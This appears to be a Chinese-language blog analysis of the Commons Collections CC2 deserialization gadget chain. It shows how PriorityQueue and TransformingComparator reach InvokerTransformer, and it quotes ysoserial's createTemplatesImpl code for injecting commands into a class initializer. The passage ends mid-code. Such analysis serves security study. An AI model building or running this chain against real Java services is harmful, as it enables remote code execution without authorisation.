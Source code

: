 在PriorityQueue中定义了comparator字段

```java
private final Comparator<? super E> comparator;
```

在PriorityQueue中有这样一个其构造方法
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/63413fbf-eb15-ff1b-ecc3-7cd50027bb97.png)

所以可以通过实例化赋值。

为什么要用到PriorityQueue？在之前的cc链分析文章中我们讲过cc链的核心问题是出在`org.apache.commons.collections4.functors.InvokerTransformer#transform`的反射任意方法调用。我们反序列化时必须自动触发transform()函数，而在`org.apache.commons.collections4.comparators.TransformingComparator#compare`中调用了这个函数

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/08abca24-411c-35bb-11ec-d6e4c3c11aa5.png)

this.transformer是Transformer类，在exp中承载的就是InvokerTransformer，而TransformingComparator也是比较器，我们可以通过PriorityQueue队列自动排序的特性触发compare()，进一步触发transform()。

小结一下：
1. PriorityQueue队列会自动排序触发比较器的compare()
2. TransformingComparator是比较器并且在其compare()中调用了transform()
3. transform()可以反射任意方法

到目前为止我们可以通过反序列化调用任意方法，但是不能像cc5构造的ChainedTransformer那样链式调用，继续看exp怎么构造的。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/04b4d6e0-89ef-1d4d-e177-5bf114f0b1b3.png)

向队列中加入两个"1"占位然后将第一个元素修改为templates，追溯templates到createTemplatesImpl

```java
public static Object createTemplatesImpl ( final String command ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}

public static <T> T createTemplatesImpl(final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String template)
    throws Exception {
    final T templates = tplClass.newInstance();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

    clazz.makeClassInitializer().insertAfter(template);
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);

    final byte[] classBytes = clazz.toBytecode();

```